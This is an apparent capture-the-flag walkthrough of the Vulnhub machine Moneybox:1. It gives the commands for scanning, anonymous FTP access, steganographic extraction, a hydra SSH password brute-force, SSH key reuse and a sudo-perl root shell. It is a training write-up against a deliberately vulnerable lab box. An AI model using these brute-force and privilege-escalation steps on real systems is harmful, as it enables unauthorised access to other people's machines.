## **MONEYBOX:1**

This box was built by **Kirthik_T** and is available for download at <a href="http://vulnhub.com"> Vulnhub.com </a>

We start this box by finding the ip using netdiscover:

```
sudo netdiscover -r <ip_address_range>
```



Now that we have the IP, we can run nmap to find the open ports:

```
sudo nmap -A -v <target_ip_address>
```

When we run this command, we can see that on this machine, the ports 22 and 80 are open:



Nmap lets us know that on this machine, anonymous login is enabled on the ftp service. That means we can log in to the ftp service using username: anonymous and password: anonymous. In this case, we have a file available for download called trytofind.jpg. We can go ahead and download that file.

```
ftp <target_ip_address>
Name: anonymous
Password: anonymous
ftp> ls
ftp> get trytofind.jpg
```



I tried to run this through stegseek, but got no results.

Now let's explore the web server. The webpage is very simple and really contains nothing interesting:



Let's run dirb to see if there are any interesting directories to explore:

```
dirb <target_ip_address>
```

We find a directory on the page called /blogs:



Let's navigate here and check it out:



Let's view the source:



The code contains a hint that there is another directory we can explore! So let's navigate there and view-source:



Ah, there's a secret key! Probably the passphrase to extract stegonographic data from that jpg file. Let's go ahead and run steghide with the secret key as the password. For this command, ```--extract``` specifies the mode yuou wish to use, and ```-sf``` specifies the file in question.

```
steghide --extract -sf trytofind.jpg
Passphrase: 3xtr4ctd4t4
```

It worked! The data has been extracted to a file called data.txt, so let's check it out:

```
cat data.txt
```



We see a possible username we can use for ssh: renu. We also see that renu is using a weak password, so let's use hydra to try a dictionary attack on the ssh service using rockyou.txt. For hydra, ```-I``` ignores the restore file so we don't have to wait 10 seconds, ```-l``` specifies the username, ```-P``` specifies a password list to use, then you add the target ip, ```-t``` specifies the number of threads to use, and finally you add the service you are targeting so hydra knows what port to use.

```
hydra -I -l renu -P /usr/share/wordlists/rockyou.txt <target_ip_address> -t 20 ssh
```



The attack is successful and now we have renu's password, so let's go ahead and ssh into the machine:

```
ssh renu@<target_ip_address>
Password: 987654321
```



Now that we're in, we can explore renu's home directory, and we find a user flag:

```
ls
cat user1.txt
```



Now let's see if we have any other user directories:

```
cd ..
ls
cd lily
ls
cat user2.txt
```


So that's 2 flags down. When we try to navigate to the root directory, we get a permission denied message, so we don't have root access.

```
cd /root
```



Let's see if lily has any hidden files or directories:

```
ls -la
```

And yes, we do! That .ssh directory seems interesting, so let's check it out:

```
cd .ssh
ls -la
```



We have a file called authorized_keys, so let's check it out:

```
cat authorized_keys
```



This is an RSA key for ssh, meaning that as renu, we can ssh into lily at the localhost! So let's become lily and see what we can see:

```
ssh lily@127.0.0.1
```



Now that we are a different user, let's check our sudo permissions and see if we can leverage those for privilege escalation:

```
sudo -l
```



It looks like lily has sudo permission to use perl with no password! We can definitely use that to get a root shell. After a quick web search, I come across this command:

```
sudo perl -e 'exec "bin/sh";'
```

When we execute this command, we get a shell and with a quick ```whoami``` command, we see we are root now!!



Now, let's go to the root directory and grab that root flag! In this case, the root flag is hidden, so don't forget to add that ```-la``` flag to ```ls```

```
cd /root
ls -la
cat .root.txt
```



And that's it! We've rooted the box! Hope you enjoyed this walkthrough.
